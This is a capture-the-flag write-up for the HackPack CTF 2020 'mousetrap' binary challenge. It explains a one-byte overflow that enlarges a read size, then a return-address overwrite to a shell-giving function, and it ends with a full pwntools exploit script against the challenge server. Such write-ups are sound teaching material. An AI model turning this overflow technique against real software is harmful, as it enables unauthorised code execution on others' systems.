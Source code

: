 ```yaml
---
layout: post
title: HackPack CTF 2020 - mousetrap
---
```


> Are you savvy enough to steal a piece of cheese?
> 
> nc cha.hackpack.club 41719
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
mousetrap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=8feeab048fc9922f3ca73ea77a659e0eab9d8889, not stripped

Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Decompiling main and set_mouse_name shows us where the vulnerability is and how we can exploit it.

main:
![decompiled_main decompiled_main][decompiled_main]

set_mouse_name:
![decompiled_set_mouse_name decompiled_set_mouse_name][decompiled_set_mouse_name]

We can see variable `size` is set to 10. We can change it to high value with one byte overflow through function `set_mouse_name`. We send mouse name with following payload:

{% highlight python %}
io.recvuntil("Name: ")
payload = (
    b"A" * 24 +
    p8(0xff)
)
io.send(payload)
{% endhighlight %}


This is will set size to `0xff`.
Now we can send long payload since the app is trying to read `0xff` bytes instead of `10`.

{% highlight python %}
io.recvuntil(":")
payload = (
    b"A" * 24 +
    p64(0x40071B)  # cheeeeeeeese
)
io.sendline(payload)

{% endhighlight %}

We overwrite return address with address of function `cheeeeeeeese` and get a shell.

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./mousetrap')

host = args.HOST or 'cha.hackpack.club'
port = int(args.PORT or 41719)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())


io = start()

io.recvuntil("Name: ")
payload = (
    b"A" * 24 +
    p8(0xff)
)
io.send(payload)

io.recvuntil(":")
payload = (
    b"A" * 24 +
    p64(0x40071B)  # cheeeeeeeese
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/hackpackctf/mousetrap
[decompiled_main]: {{site.baseurl}}/ctf/2020-04-29-hackpackctf-mousetrap/decompiled_main.png
[decompiled_set_mouse_name]: {{site.baseurl}}/ctf/2020-04-29-hackpackctf-mousetrap/decompiled_set_mouse_name.png
